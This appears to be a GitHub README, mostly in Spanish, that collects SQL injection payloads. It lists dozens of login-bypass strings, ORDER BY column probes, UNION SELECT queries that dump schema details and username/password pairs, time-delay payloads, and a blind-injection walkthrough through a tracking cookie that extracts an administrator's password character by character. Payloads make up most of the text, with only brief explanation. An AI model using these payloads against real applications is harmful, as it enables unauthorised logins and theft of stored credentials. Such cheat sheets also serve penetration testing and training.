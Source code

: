 # SQLi
This is how SQL Injection works:
- [LoginByPass](https://github.com/erik-451/SQLi/blob/main/LoginByPass.md)
- [PortSwigger CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![SQLi](https://user-images.githubusercontent.com/47476901/124319507-3bbe1600-db72-11eb-976f-872635141ea9.PNG)

### 1- Login inyection
Estos payloads hacen referencia inyeciones de consultas de sql, tambien se pueden usar en los logins para conseguir el usuario de administrador generalmente.
```bash
root' --
root' #
root'/*
root' or '1'='1
root' or '1'='1'--
root' or '1'='1'#
root' or '1'='1'/*
root'or 1=1 or ''='
root' or 1=1
root' or 1=1--
root' or 1=1#
root' or 1=1/*
root') or ('1'='1
root') or ('1'='1'--
root') or ('1'='1'#
root') or ('1'='1'/*
root') or '1'='1
root') or '1'='1'--
root') or '1'='1'#
root') or '1'='1'/*

or 1=1
or 1=1--
or 1=1#
or 1=1/*
' or 1=1
' or 1=1--
' or 1=1#
' or 1=1 #
' or 1=1/*
" or 1=1
" or 1=1--
" or 1=1#
" or 1=1/*

1' or '1'='1

root" --
root" #
root"/*
root" or "1"="1
root" or "1"="1"--
root" or "1"="1"#
root" or "1"="1"/*
root" or 1=1 or ""="
root" or 1=1
root" or 1=1--
root" or 1=1#
root" or 1=1/*
root") or ("1"="1
root") or ("1"="1"--
root") or ("1"="1"#
root") or ("1"="1"/*
root") or "1"="1
root") or "1"="1"--
root") or "1"="1"#
root") or "1"="1"/*

admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*

admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin' or 1=1-- -
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
```
------------------------------------------
### 2- Determinar el número de columnas necesarias en un ataque UNION de inyección SQL
```sql
' ORDER BY 1--
```
Podemos ir testeando este payload para determinar cuantas columnas necesitamos. Ej: si con el payload del numero 3 significa que
la posición ORDER BY número 3 está fuera del rango del número de elementos en la lista de selección.

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc ...
```

------------------------------------------
### 3- SQL injection UNION attacks
```sql
SELECT A, B FROM table1 UNION SELECT C, D FROM table2
```
Esta consulta SQL devolverá un único conjunto de resultados con dos columnas, que contienen los valores de las columnas A y B en la tabla1 y las columnas C y D en la tabla2.
```sql
union select 1,2-- -
union select 1,@@version
union select all 1,database()
union select all 1,table_schema from information_schema.tables 
union select all 1,table_name from information_schema.tables where table_schema='sysadmin' 
union select all 1,column_name from information_schema.columns where table_name='users' 
union select 1,(select group_concat(username,password) from sysadmin.users) 

' UNION SELECT username, password FROM users--
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc ...
```
------------------------------------------
### 4- Time delays
Los Time Delays crean un tiempo de espera al recibir la peticion cuando se ejecutan.

Delay de 5 segundos:
```sql
')) or sleep(5)='
```
Estos payloads se usan para testear si existe una inyeccion SQL porque no suponen un riesgo para la base de datos.

```sql
')) or sleep(5)='
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```
------------------------------------------
### 5- Inyección SQL ciega
La inyección SQL ciega surge cuando una aplicación es vulnerable a la inyección SQL, pero sus respuestas HTTP no contienen los resultados de la consulta SQL relevante o los detalles de los errores de la base de datos.
Es decir no se reflejan en la web. Pero una forma es ir comprobando estas consultas através de las cookies de seguimiento.
Por ejemplo:
```http
Cookie: TrackingId= e8IU14F6r1xyz
```
Suponiendo que hay una tabla llamada "Users" con las columnas "Username" y "Password", y un usuario llamado "Administrador". Podemos determinar sistemáticamente la contraseña para este usuario enviando una serie de entradas para probar la contraseña un carácter a la vez.

Para hacer esto, comenzamos con la siguiente entrada:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) > 'a
```
Esto devuelve el mensaje "Bienvenido de nuevo", que indica que la condición inyectada es verdadera, por lo que el primer carácter de la contraseña es mayor que a.

A continuación, enviamos la siguiente entrada:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) > 'c
```
Esto no devuelve el mensaje "Bienvenido de nuevo", lo que indica que la condición inyectada es falsa, por lo que el primer carácter de la contraseña no es mayor que c.

Finalmente, enviamos la siguiente entrada, que devuelve el mensaje "Bienvenido de nuevo", confirmando así que el primer carácter de la contraseña es b:
```sql
Cookie: TrackingId= e8IU14F6r1xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrador'), 1, 1) = 'b
```
Podemos continuar este proceso para determinar sistemáticamente la contraseña completa para el usuario Administrador.


